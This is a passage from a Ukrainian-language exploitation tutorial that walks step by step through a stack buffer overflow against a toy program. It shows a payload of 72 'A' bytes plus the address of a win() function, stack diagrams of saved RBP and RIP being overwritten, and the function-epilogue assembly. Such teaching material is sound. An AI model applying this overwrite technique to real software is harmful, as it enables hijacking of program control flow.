 **МИ ВІДПРАВЛЯЄМО:**
```python
payload = b'A' * 72 + p64(0x401136)
# 72 байти 'A' + 8 байт адреси win()
# Загалом: 80 байт
```

### Кадр 4: Стек ПІСЛЯ read() - ПЕРЕПОВНЕННЯ!

```
        Адреса          Що БУЛО         Що СТАЛО
┌─────────────────────────────────────────────────────────┐
│ 0x7ffe...88 │ 0x00401234      │ 0x00401136  │ ← ПЕРЕЗАПИСАНО на win()!
├─────────────────────────────────────────────────────────┤
│ 0x7ffe...80 │ 0x7ffe...b0     │ 0x4141...   │ ← ПЕРЕЗАПИСАНО на 'AAAAAAAA'
├─────────────────────────────────────────────────────────┤
│ 0x7ffe...40 │ ????????        │ 'A' 'A'     │ ┐
│     ...     │ ????????        │ 'A' 'A'     │ │
│     ...     │ ????????        │ 'A' 'A'     │ │ name[64]
│ 0x7ffe...01 │ ????????        │ 'A' 'A'     │ │ заповнено 'A'
│ 0x7ffe...00 │ ????????        │ 'A' 'A'     │ ┘
└─────────────────────────────────────────────────────────┘
```

**ЩО СТАЛОСЯ:**
- Байти 0-63: Заповнили `name[64]` символами 'A'
- Байти 64-71: ПЕРЕЗАПИСАЛИ saved RBP на 'AAAAAAAA' (0x4141414141414141)
- Байти 72-79: ПЕРЕЗАПИСАЛИ saved RIP на 0x00401136 (адреса win)

### Кадр 5: vuln() завершується - ЕПІЛОГ

```c
}  // Кінець функції vuln()
```

**Асемблер епілогу:**
```asm
; vuln() епілог:
leave:
  mov    rsp, rbp       ; Відновити stack pointer
  pop    rbp            ; Витягти saved RBP зі стеку

ret:
  pop    rip            ; Витягти saved RIP зі стеку
  jmp    rip            ; Стрибнути на адресу в RIP
```

**Покроково:**

**Крок 5.1: leave (mov rsp, rbp)**
```
RSP стає рівним RBP
RSP = 0x7ffe...80
```

**Крок 5.2: leave (pop rbp)**
```asm
pop rbp  ; RBP = [RSP]; RSP += 8
```
```
RBP тепер = 0x4141414141414141  ← Зламано, але не важливо!
RSP = 0x7ffe...88 (зсунувся на 8)
```
